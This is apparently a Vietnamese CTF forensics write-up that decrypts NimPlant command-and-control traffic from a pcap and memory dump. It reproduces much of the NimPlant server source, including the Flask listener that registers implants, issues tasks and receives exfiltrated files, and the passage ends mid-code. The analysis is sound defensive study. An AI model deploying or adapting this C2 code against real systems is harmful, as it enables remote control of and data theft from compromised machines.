# Challenge The Art of Capture

## 1. Đầu vào challenge

Đầu vào challenge cung cấp 2 file `capture.pcapng` và `DbgInfo.DMP`, vì vậy có thể suy nghĩ ngay rằng file `.DMP` là memory dump của một process. File này có thể chứa key/secret dùng để decrypt dữ liệu trong các traffic được mã hóa giữa máy nạn nhân và C2.

Từ `Protocol Hierarchy Statistics`, thấy được trong pcap có HTTP traffic và JSON data, nên pivot đầu tiên đi từ HTTP, sử dụng filter `http`



Sử dụng filter `http`

Sau khi sử dụng filter và xem trong TCP stream thấy được request POST chứa các data đang bị mã hóa



Vì vậy giờ cần tìm key/secret dùng để decrypt phần data này. Khi strings -a file rồi tìm thử các từ khóa như /api/v2/query vì trong HTTP traffic, endpoint xuất hiện nhiều lần. Thấy xung quanh không chỉ có path /api/v2/query, mà còn xuất hiện cả một block config có section [nimplant], các dòng cấu hình như sleepTime, killDate, userAgent, và comment Configure the user-agent that NimPlants use to connect.



Vậy traffic trong pcap thuộc về NimPlant.

## 2. Xác định NimPlant và cơ chế mã hóa traffic

Tiếp tục, khi tra cứu về cách mà NimPlant decrypt traffic C2.

Đây source code mà [NimPlant server](https://github.com/chvancooten/NimPlant/blob/main/server/util/crypto.py) sử dụng cho việc decrypt dữ liệu traffic.

```python
import base64
import random
import string
from Crypto.Cipher import AES
from Crypto.Util import Counter
# XOR function to transmit key securely. Matches nimplant XOR function in 'client/util/crypto.nim'
def xor_string(value, key):
    k = key
    result = []
    for c in value:
        character = ord(c)
        for f in [0, 8, 16, 24]:
            character = character ^ (k >> f) & 0xFF
        result.append(character)
        k = k + 1
    # Return a bytes-like object constructed from the iterator to prevent chr()/encode() issues
    return bytes(result)
def random_string(
    size, chars=string.ascii_letters + string.digits + string.punctuation
):
    return "".join(random.choice(chars) for _ in range(size))
# https://stackoverflow.com/questions/3154998/pycrypto-problem-using-aesctr
def encrypt_data(plaintext: str, key: str) -> str:
    iv = random_string(16).encode("UTF-8")
    ctr = Counter.new(128, initial_value=int.from_bytes(iv, byteorder="big"))
    aes = AES.new(key.encode("UTF-8"), AES.MODE_CTR, counter=ctr)
    try:
        ciphertext = iv + aes.encrypt(plaintext.encode("UTF-8"))
    except AttributeError:
        ciphertext = iv + aes.encrypt(plaintext)
    enc = base64.b64encode(ciphertext).decode("UTF-8")
    return enc
def decrypt_data(blob: bytes, key: str) -> str:
    ciphertext = base64.b64decode(blob)
    iv = ciphertext[:16]
    ctr = Counter.new(128, initial_value=int.from_bytes(iv, byteorder="big"))
    aes = AES.new(key.encode("UTF-8"), AES.MODE_CTR, counter=ctr)
    dec = aes.decrypt(ciphertext[16:]).decode("UTF-8")
    return dec
def decrypt_data_to_bytes(blob: bytes, key: str) -> bytes:
    ciphertext = base64.b64decode(blob)
    iv = ciphertext[:16]
    ctr = Counter.new(128, initial_value=int.from_bytes(iv, byteorder="big"))
    aes = AES.new(key.encode("UTF-8"), AES.MODE_CTR, counter=ctr)
    dec = aes.decrypt(ciphertext[16:])
    return dec
```

### 2.1. Phân tích cơ chế AES-CTR

Đầu tiên, trong hàm decrypt_data, dữ liệu đầu vào được base64 decode:

```python
ciphertext = base64.b64decode(blob)
```

Điều này cho thấy giá trị data trong JSON thực chất là một chuỗi base64. Vì vậy muốn decrypt thì bước đầu tiên phải decode base64 để lấy dữ liệu nhị phân thật.

Tiếp theo, source tách 16 bytes đầu tiên của dữ liệu sau khi decode để làm IV:

```python
iv = ciphertext[:16]
```

Phần còn lại, bắt đầu từ byte thứ 16 trở đi, là ciphertext thật sự cần được giải mã:

```python
aes.decrypt(ciphertext[16:])
```

Sau đó chương trình tạo counter cho AES-CTR từ IV vừa tách được:

```python
ctr = Counter.new(128, initial_value=int.from_bytes(iv, byteorder="big"))
aes = AES.new(key.encode("UTF-8"), AES.MODE_CTR, counter=ctr)
```

Từ đây có thể xác định NimPlant sử dụng AES ở chế độ CTR. Key được truyền vào hàm dưới dạng string, sau đó encode sang bytes để đưa vào AES.

Cuối cùng, dữ liệu được decrypt và decode về UTF-8:

```python
dec = aes.decrypt(ciphertext[16:]).decode("UTF-8")
return dec
```

Như vậy format mã hóa của NimPlant có thể tóm tắt là:

```text
base64( IV 16 bytes + AES-CTR(ciphertext) )
```

Vì vậy để giải mã traffic trong pcap, mình cần lấy giá trị data, base64 decode, tách 16 bytes đầu làm IV, dùng phần còn lại làm ciphertext, rồi decrypt bằng AES-CTR với key

## 3. Phân tích cơ chế trao đổi key của NimPlant

Từ file pcap, như đã thấy có 1 request login



Response của request login này trả về JSON chứa id và k:

```json
{"id":"gxksd3v7","k":"opO2j7SMi7iSsoqVh5uZpA=="}
```

Với NimPlant source server/util/listener.py,



```python
import base64
import gzip
import hashlib
import io
import json
import os
from enum import unique, Enum
from ssl import CERT_NONE, PROTOCOL_TLSv1_2
from typing import Optional
from zlib import decompress, compress
import flask
from gevent.pywsgi import WSGIServer
from server.util.config import config
from server.util.crypto import (
    xor_string,
    decrypt_data,
    encrypt_data,
    decrypt_data_to_bytes,
)
from server.util.func import (
    dump_debug_info_for_exception,
    get_external_ip,
    nimplant_print,
    process_screenshot,
)
from server.util.nimplant import NimPlant, np_server
from server.util.notify import notify_user
from server.util.strings import decode_base64_blob
# Parse configuration from 'config.toml'
try:
    listener_type = config["listener"]["type"]
    listener_ip = config["listener"]["ip"]
    listener_port = config["listener"]["port"]
    register_path = config["listener"]["registerPath"]
    task_path = config["listener"]["taskPath"]
    resultPath = config["listener"]["resultPath"]
    user_agent = config["nimplant"]["userAgent"]
    if listener_type == "HTTPS":
        ssl_cert_path = config["listener"]["sslCertPath"]
        ssl_key_path = config["listener"]["sslKeyPath"]
    B_IDENT = b"789CF3CBCC0DC849CC2B51703652084E2D2A4B2D02003B5C0650"
except KeyError as e:
    nimplant_print(
        f"ERROR: Could not load configuration, check your 'config.toml': {str(e)}"
    )
    os._exit(1)
# Init flask app and surpress Flask/Gevent logging and startup messages
app = flask.Flask(__name__)
ident = decompress(base64.b16decode(B_IDENT)).decode("utf-8")
@unique
class BadRequestReason(Enum):
    BAD_KEY = "bad_key"
    UNKNOWN = "unknown"
    NO_TASK_GUID = "no_task_id"
    ID_NOT_FOUND = "id_not_found"
    NOT_RECEIVING_FILE = "not_receiving_file"
    NOT_HOSTING_FILE = "not_hosting_file"
    INCORRECT_FILE_ID = "incorrect_file_id"
    USER_AGENT_MISMATCH = "user_agent_mismatch"
    def get_explanation(self):
        explanations = {
            self.BAD_KEY: "We were unable to process the request. This is likely caused by a XOR key mismatch between NimPlant and server! It could be an old NimPlant that wasn't properly killed or blue team activity.",
            self.NO_TASK_GUID: "No task GUID was given. This could indicate blue team activity or random internet noise.",
            self.ID_NOT_FOUND: "The specified NimPlant ID was not found. This could indicate an old NimPlant trying to reconnect, blue team activity, or random internet noise.",
            self.NOT_RECEIVING_FILE: "We've received an unexpected file upload request from a NimPlant. This could indicate a mismatch between the server and the Nimplant or blue team activity.",
            self.NOT_HOSTING_FILE: "We've received an unexpected file download request from a NimPlant. This could indicate a mismatch between the server and the Nimplant or blue team activity.",
            self.INCORRECT_FILE_ID: "The specified file id for upload/download is incorrect. This could indicate a mismatch between the server and the Nimplant or blue team activity.",
            self.USER_AGENT_MISMATCH: "User-Agent for the request doesn't match the configuration. This could indicate an old NimPlant trying to reconnect, blue team activity, or random internet noise.",
            self.UNKNOWN: "The reason is unknown.",
        }
        return explanations.get(self, "The reason is unknown.")
# Define a function to notify users of unknown or erroneous requests
def notify_bad_request(
    request: flask.Request,
    reason: BadRequestReason = BadRequestReason.UNKNOWN,
    np_guid: Optional[str] = None,
):
    source = get_external_ip(request)
    headers = dict(request.headers)
    user_agent = request.headers.get("User-Agent", "Unknown")
    nimplant_print(
        f"Rejected {request.method} request from '{source}': {request.path} ({user_agent})",
        target=np_guid,
    )
    nimplant_print(f"Reason: {reason.get_explanation()}", target=np_guid)
    # Printing headers would be useful for checking if we have id or guid definitions.
    nimplant_print("Request Headers:", target=np_guid)
    nimplant_print(json.dumps(headers, ensure_ascii=False), target=np_guid)
# Define Flask listener to run in thread
def flask_listener(xor_key):
    @app.route(register_path, methods=["GET", "POST"])
    # Verify expected user-agent for incoming registrations
    def get_nimplant():
        if user_agent == flask.request.headers.get("User-Agent"):
            # First request from NimPlant (GET, no data) -> Initiate NimPlant and return XORed key
            if flask.request.method == "GET":
                np: NimPlant = NimPlant()
                np_server.add(np)
                xor_bytes = xor_string(np.encryption_key, xor_key)
                encoded_key = base64.b64encode(xor_bytes).decode("utf-8")
                return flask.jsonify(id=np.guid, k=encoded_key), 200
            # Second request from NimPlant (POST, encrypted blob) -> Activate the NimPlant object based on encrypted data
            elif flask.request.method == "POST":
                data = flask.request.json
                np = np_server.get_nimplant_by_guid(
                    flask.request.headers.get("X-Identifier")
                )
                data = data["data"]
                try:
                    data = decrypt_data(data, np.encryption_key)
                    data_json = json.loads(data)
                    ip_internal = data_json["i"]
                    ip_external = get_external_ip(flask.request)
                    username = data_json["u"]
                    hostname = data_json["h"]
                    os_build = data_json["o"]
                    pid = data_json["p"]
                    process_name = data_json["P"]
                    risky_mode = data_json["r"]
                    np.activate(
                        ip_external,
                        ip_internal,
                        username,
                        hostname,
                        os_build,
                        pid,
                        process_name,
                        risky_mode,
                    )
                    notify_user(np)
                    if not np_server.has_active_nimplants():
                        np_server.select_nimplant(np.guid)
                    return flask.jsonify(status="OK"), 200
                except:
                    notify_bad_request(flask.request, BadRequestReason.BAD_KEY)
                    return flask.jsonify(status="Not found"), 404
        else:
            notify_bad_request(flask.request, BadRequestReason.USER_AGENT_MISMATCH)
            return flask.jsonify(status="Not found"), 404
    @app.route(task_path, methods=["GET"])
    # Return the first active task IF the user-agent is as expected
    def get_task():
        np: NimPlant = np_server.get_nimplant_by_guid(
            flask.request.headers.get("X-Identifier")
        )
        if np is not None:
            if user_agent == flask.request.headers.get("User-Agent"):
                # Update the external IP address if it changed
                if not np.ip_external == get_external_ip(flask.request):
                    nimplant_print(
                        f"External IP Address for NimPlant changed from {np.ip_external} to {get_external_ip(flask.request)}",
                        np.guid,
                    )
                    np.ip_external = get_external_ip(flask.request)
                if np.pending_tasks:
                    # There is a task - check in to update 'last seen' and return the task
                    np.checkin()
                    task = encrypt_data(np.get_next_task(), np.encryption_key)
                    return flask.jsonify(t=task), 200
                else:
                    # There is no task - check in to update 'last seen'
                    if np.is_active():
                        np.checkin()
                    return flask.jsonify(status="OK"), 200
            else:
                notify_bad_request(
                    flask.request, BadRequestReason.USER_AGENT_MISMATCH, np.guid
                )
                return flask.jsonify(status="Not found"), 404
        else:
            notify_bad_request(flask.request, BadRequestReason.ID_NOT_FOUND)
            return flask.jsonify(status="Not found"), 404
    @app.route(task_path + "/<file_id>", methods=["GET"])
    # Return a hosted file as gzip-compressed stream for the 'upload' command,
    # IF the user-agent is as expected AND the caller knows the file ID
    def upload_file(file_id):
        np: NimPlant = np_server.get_nimplant_by_guid(
            flask.request.headers.get("X-Identifier")
        )
        if np is not None:
            if user_agent == flask.request.headers.get("User-Agent"):
                if (np.hosting_file is not None) and (
                    file_id == hashlib.md5(np.hosting_file.encode("utf-8")).hexdigest()
                ):
                    task_guid: Optional[str] = None
                    try:
                        # Construct a GZIP stream of the file to upload in-memory
                        # Note: We 'double-compress' here since compression has little use after encryption,
                        #       but we want to present the file as a GZIP stream anyway
                        task_guid = flask.request.headers.get("X-Unique-ID")
                        if task_guid is not None:
                            with open(np.hosting_file, mode="rb") as contents:
                                processed_file = encrypt_data(
                                    compress(contents.read()), np.encryption_key
                                )
                            with io.BytesIO() as data:
                                with gzip.GzipFile(fileobj=data, mode="wb") as zip_data:
                                    zip_data.write(processed_file.encode("utf-8"))
                                result_gzipped = data.getvalue()
                            np.stop_hosting_file()
                            # Return the GZIP stream as a response
                            res = flask.make_response(result_gzipped)
                            res.mimetype = "application/x-gzip"
                            res.headers["Content-Encoding"] = "gzip"
                            return res
                        else:
                            notify_bad_request(
                                flask.request, BadRequestReason.NO_TASK_GUID, np.guid
                            )
                            np.stop_hosting_file()
                            return flask.jsonify(status="Not found"), 404
                    except Exception as e:
                        # Error: Could not host the file
                        nimplant_print(
                            f"An error occurred while uploading file:\n{type(e)}:{e}",
                            np.guid,
                            task_guid=task_guid,
                        )
                        np.stop_hosting_file()
                        return flask.jsonify(status="Not found"), 404
                else:
                    # Error: The Nimplant is not hosting a file or the file ID is incorrect
                    notify_bad_request(
                        flask.request,
                        (
                            BadRequestReason.NOT_HOSTING_FILE
                            if np.hosting_file is None
                            else BadRequestReason.INCORRECT_FILE_ID
                        ),
                        np.guid,
                    )
                    return flask.jsonify(status="OK"), 200
            else:
                # Error: The user-agent is incorrect
                notify_bad_request(
                    flask.request, BadRequestReason.USER_AGENT_MISMATCH, np.guid
                )
                return flask.jsonify(status="Not found"), 404
        else:
            # Error: No Nimplant with the given GUID is currently active
            notify_bad_request(flask.request, BadRequestReason.ID_NOT_FOUND)
            return flask.jsonify(status="Not found"), 404
    @app.route(task_path + "/u", methods=["POST"])
    # Receive a file downloaded from NimPlant through the 'download' command, IF the user-agent is as expected AND the NimPlant object is expecting a file
    def download_file():
        np: NimPlant = np_server.get_nimplant_by_guid(
            flask.request.headers.get("X-Identifier")
        )
        if np is not None:
            if user_agent == flask.request.headers.get("User-Agent"):
                if np.receiving_file is not None:
                    task_guid: Optional[str] = None
                    try:
                        task_guid = flask.request.headers.get("X-Unique-ID")
                        if task_guid is not None:
                            uncompressed_file = gzip.decompress(
                                decrypt_data_to_bytes(
                                    flask.request.data, np.encryption_key
                                )
                            )
                            with open(np.receiving_file, "wb") as f:
                                f.write(uncompressed_file)
                            nimplant_print(
                                f"Successfully downloaded file to '{os.path.abspath(np.receiving_file)}' on NimPlant server.",
                                np.guid,
                                task_guid=task_guid,
                            )
                            np.stop_receiving_file()
                            return flask.jsonify(status="OK"), 200
                        else:
                            notify_bad_request(
                                flask.request, BadRequestReason.NO_TASK_GUID, np.guid
                            )
                            np.stop_receiving_file()
                            return flask.jsonify(status="Not found"), 404
                    except Exception as e:
                        nimplant_print(
                            f"An error occurred while downloading file: {e}",
                            np.guid,
                            task_guid=task_guid,
                        )
                        np.stop_receiving_file()
                        return flask.jsonify(status="Not found"), 404
                else:
                    notify_bad_request(
                        flask.request, BadRequestReason.NOT_RECEIVING_FILE, np.guid
                    )
                    return flask.jsonify(status="OK"), 200
            else:
                notify_bad_request(
                    flask.request, BadRequestReason.USER_AGENT_MISMATCH, np.guid
                )
                return flask.jsonify(status="Not found"), 404
        else:
            notify_bad_request(flask.request, BadRequestReason.ID_NOT_FOUND)
            return flask.jsonify(status="Not found"), 404
    @app.route(resultPath, methods=["POST"])
    # Parse command output IF the user-agent is as expected
    def get_result():
        data = flask.request.json
        np: NimPlant = np_server.get_nimplant_by_guid(
            flask.request.headers.get("X-Identifier")
        )
        if np is not None:
            if user_agent == flask.request.headers.get("User-Agent"):
                res = json.loads(decrypt_data(data["data"], np.encryption_key))
                data = decode_base64_blob(res["result"])
                # Handle Base64-encoded, gzipped PNG file (screenshot)
                if data.startswith("H4sIAAAA") or data.startswith("H4sICAAA"):
                    data = process_screenshot(np, data)
                np.set_task_result(res["guid"], data)
                return flask.jsonify(status="OK"), 200
            else:
                notify_bad_request(
                    flask.request, BadRequestReason.USER_AGENT_MISMATCH, np.guid
                )
                return flask.jsonify(status="Not found"), 404
        else:
            notify_bad_request(flask.request, BadRequestReason.ID_NOT_FOUND)
            return flask.jsonify(status="Not found"), 404
    @app.errorhandler(Exception)
    def all_exception_handler(error):
        nimplant_print(
            f"Rejected {flask.request.method} request from '{get_external_ip(flask.request)}' to {flask.request.path} due to error: {error}"
        )
        dump_debug_info_for_exception(error, flask.request)
        return flask.jsonify(status="Not found"), 404
    @app.after_request
    def change_server(response: flask.Response):
        response.headers["Server"] = ident
        return response
    # Run the Flask web server using Gevent
    if listener_type == "HTTP":
        try:
            http_server = WSGIServer((listener_ip, listener_port), app, log=None)
            http_server.serve_forever()
        except Exception as e:
            nimplant_print(
                f"ERROR: Error setting up web server. Verify listener settings in 'config.toml'. Exception: {e}"
            )
            os._exit(1)
    else:
        try:
            https_server = WSGIServer(
                (listener_ip, listener_port),
                app,
                keyfile=ssl_key_path,
                certfile=ssl_cert_path,
                ssl_version=PROTOCOL_TLSv1_2,
                cert_reqs=CERT_NONE,
                log=None,
            )
            https_server.serve_forever()
        except Exception as e:
            nimplant_print(
                f"ERROR: Error setting up SSL web server. Verify 'sslCertPath', 'sslKeyPath', and listener settings in 'config.toml'. Exception: {e}"
            )
            os._exit(1)
```

### 3.1. Phân tích request đăng ký

```python
 request GET đầu tiên đến register path được xử lý như sau:
np: NimPlant = NimPlant()
np_server.add(np)
xor_bytes = xor_string(np.encryption_key, xor_key)
encoded_key = base64.b64encode(xor_bytes).decode("utf-8")
```

return flask.jsonify(id=np.guid, k=encoded_key), 200

Tức là server tạo một object NimPlant, lấy np.encryption_key, XOR với xor_key, rồi base64 encode và trả về trong field k.

### 3.2. Xác định `encryption_key` trong `nimplant.py`

Tiếp tục xem server/util/nimplant.py



```python
import itertools
import json
import os
import random
import string
from datetime import datetime
from secrets import choice
from typing import List
import server.util.db as db
import server.util.func as func
from server.util.config import config
# Parse configuration from 'config.toml'
try:
    initialSleepTime = config["nimplant"]["sleepTime"]
    initialSleepJitter = config["nimplant"]["sleepJitter"]
    killDate = config["nimplant"]["killDate"]
except KeyError as e:
    func.nimplant_print(
        f"ERROR: Could not load configuration, check your 'config.toml': {str(e)}"
    )
    os._exit(1)
class Server:
    def __init__(self):
        self.nimplant_list: List[NimPlant] = []
        self.active_nimplant_guid = None
        self.guid = None
        self.name = None
        self.xor_key = None
        self.killed = False
        self.management_ip = config["server"]["ip"]
        self.management_port = config["server"]["port"]
        self.listener_type = config["listener"]["type"]
        self.listener_ip = config["listener"]["ip"]
        self.listener_host = config["listener"]["hostname"]
        self.listener_port = config["listener"]["port"]
        self.register_path = config["listener"]["registerPath"]
        self.task_path = config["listener"]["taskPath"]
        self.result_path = config["listener"]["resultPath"]
        self.risky_mode = config["nimplant"]["riskyMode"]
        self.sleep_time = config["nimplant"]["sleepTime"]
        self.sleep_jitter = config["nimplant"]["sleepJitter"]
        self.kill_date = config["nimplant"]["killDate"]
        self.user_agent = config["nimplant"]["userAgent"]
    def asdict(self):
        return {
            "guid": self.guid,
            "name": self.name,
            "xorKey": self.xor_key,
            "managementIp": self.management_ip,
            "managementPort": self.management_port,
            "listenerType": self.listener_type,
            "listenerIp": self.listener_ip,
            "listenerHost": self.listener_host,
            "listenerPort": self.listener_port,
            "registerPath": self.register_path,
            "taskPath": self.task_path,
            "resultPath": self.result_path,
            "riskyMode": self.risky_mode,
            "sleepTime": self.sleep_time,
            "sleepJitter": self.sleep_jitter,
            "killDate": self.kill_date,
            "userAgent": self.user_agent,
            "killed": self.killed,
        }
    def initialize(self, name, xor_key):
        self.guid = "".join(
            random.choice(string.ascii_letters + string.digits) for i in range(8)
        )
        self.xor_key = xor_key
        if not name == "":
            self.name = name
        else:
            self.name = self.guid
    def restore_from_db(self):
        previous_server = db.db_get_previous_server_config()
        self.guid = previous_server["guid"]
        self.xor_key = previous_server["xorKey"]
        self.name = previous_server["name"]
        previous_nimplants = db.db_get_previous_nimplants(self.guid)
        for previous_nimplant in previous_nimplants:
            np = NimPlant()
            np.restore_from_database(previous_nimplant)
            self.add(np)
    def add(self, np):
        self.nimplant_list.append(np)
    def select_nimplant(self, nimplant_id):
        if len(nimplant_id) == 8:
            # Select by GUID
            res = [np for np in self.nimplant_list if np.guid == nimplant_id]
        else:
            # Select by sequential ID
            res = [np for np in self.nimplant_list if np.id == nimplant_id]
        if res and res[0].active:
            func.nimplant_print(f"Starting interaction with NimPlant #{res[0].id}.")
            self.active_nimplant_guid = res[0].guid
        else:
            func.nimplant_print("Invalid NimPlant ID.")
    def get_next_active_nimplant(self):
        guid = [np for np in self.nimplant_list if np.active][0].guid
        self.select_nimplant(guid)
    def get_active_nimplant(self):
        res = [np for np in self.nimplant_list if np.guid == self.active_nimplant_guid]
        if res:
            return res[0]
        else:
            return None
    def get_nimplant_by_guid(self, guid):
        res = [np for np in self.nimplant_list if np.guid == guid]
        if res:
            return res[0]
        else:
            return None
    def has_active_nimplants(self):
        for np in self.nimplant_list:
            if np.active and not np.late:
                return True
        return False
    def is_active_nimplant_selected(self):
        if self.active_nimplant_guid is not None:
            return self.get_active_nimplant().active
        else:
            return False
    def kill(self):
        db.kill_server_in_db(self.guid)
    def kill_all_nimplants(self):
        for np in self.nimplant_list:
            np.kill()
    def get_nimplant_info(self, include_all=False):
        result = "\n"
        result += "{:<4} {:<8} {:<15} {:<15} {:<15} {:<15} {:<20} {:<20}\n".format(
            "ID",
            "GUID",
            "EXTERNAL IP",
            "INTERNAL IP",
            "USERNAME",
            "HOSTNAME",
            "PID",
            "LAST CHECK-IN",
        )
        for np in self.nimplant_list:
            if include_all or np.active:
                result += (
                    "{:<4} {:<8} {:<15} {:<15} {:<15} {:<15} {:<20} {:<20}\n".format(
                        np.id,
                        np.guid,
                        np.ip_external,
                        np.ip_internal,
                        np.username,
                        np.hostname,
                        f"{np.pname} ({np.pid})",
                        f"{np.last_checkin} ({np.get_last_checkin_seconds()}s ago)",
                    )
                )
        return result.rstrip()
    def check_late_nimplants(self):
        for np in self.nimplant_list:
            np.is_late()
# Class to contain data and status about connected implant
class NimPlant:
    newId = itertools.count(start=1)
    def __init__(self):
        self.id = str(next(self.newId))
        self.guid = "".join(
            random.choice(string.ascii_letters + string.digits) for i in range(8)
        )
        self.active = False
        self.late = False
        self.ip_external = None
        self.ip_internal = None
        self.username = None
